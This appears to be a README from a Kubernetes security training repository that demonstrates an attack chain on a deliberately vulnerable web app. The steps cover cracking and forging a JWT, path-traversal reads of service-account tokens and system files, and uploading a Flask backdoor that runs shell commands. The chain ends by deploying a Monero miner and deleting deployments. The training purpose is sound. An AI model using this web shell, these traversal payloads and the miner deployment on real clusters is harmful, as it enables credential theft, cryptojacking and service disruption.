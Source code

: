 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user, login and be redirected to the images service

4. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

5. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

6. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    <!-- TODO: save permalink below -->
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/main/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L23) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)

7. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)

8. proceed to `images-api` with the new token, see the admin page

---

9. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.
---

10. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - try to browse [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get Unauthorized
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    - since the server is in Debug mode, it auto-reloads without restarting the pod

9. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`

10. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

11. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`

11. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`

12. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
